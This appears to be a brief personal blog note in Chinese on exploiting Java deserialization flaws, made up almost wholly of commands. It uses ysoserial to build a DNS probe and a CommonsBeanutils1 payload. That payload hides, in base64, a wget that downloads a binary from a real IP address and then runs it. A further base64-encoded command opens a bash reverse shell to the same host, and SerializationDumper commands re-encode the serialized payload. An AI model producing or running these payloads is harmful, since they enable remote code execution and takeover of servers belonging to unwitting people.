 ```yaml
---
author: XhstormR
tags:
- Notes
date: 2021-01-27T16:40:13+08:00
title: Java 反序列化漏洞利用
---
```


<!--more-->

Updated on 2021-01-27

>

```bash
探测：
java -jar ysoserial-master-SNAPSHOT.jar URLDNS "http://y8jhkk.dnslog.cn" > URLDNS.bin

利用：
java -jar ysoserial-master-SNAPSHOT.jar CommonsBeanutils1 "bash -c {echo,d2dldCAtcU8gMTdLNm9NQzUgLS1uby1jaGVjay1jZXJ0aWZpY2F0ZSBodHRwOi8vNDcuOTguMTM1LjY1OjgwODAvbGpDUHh6dDsgY2htb2QgK3ggMTdLNm9NQzU7IC4vMTdLNm9NQzU=}|{base64,-d}|{bash,-i}" > CommonsBeanutils1.bin
```

```bash
转储为文本格式：
java -jar SerializationDumper-v1.13.jar -r CommonsBeanutils1.bin > CommonsBeanutils1.txt

还原为二进制流：
java -jar SerializationDumper-v1.13.jar -b CommonsBeanutils1.txt CommonsBeanutils1.ok.bin
```

```bash
计算 serialVersionUID -3490850999041592962 序列化后的值：
busybox printf "%016x" -3490850999041592962 |^
busybox fold -w2 |^
busybox paste -sd" "
----
cf 8e 01 82 fe 4e f1 7e
```

```bash
Shell 中执行命令：
bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45OC4xMzUuNjUvNDM5OSAwPiYx}|{base64,-d}|{bash,-i}'

Java 中执行命令：
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45OC4xMzUuNjUvNDM5OSAwPiYx}|{base64,-d}|{bash,-i}
```

## Reference
* https://github.com/frohoff/ysoserial
* https://github.com/zema1/ysoserial
* https://github.com/NickstaDB/SerializationDumper
* http://jackson-t.ca/runtime-exec-payloads.html
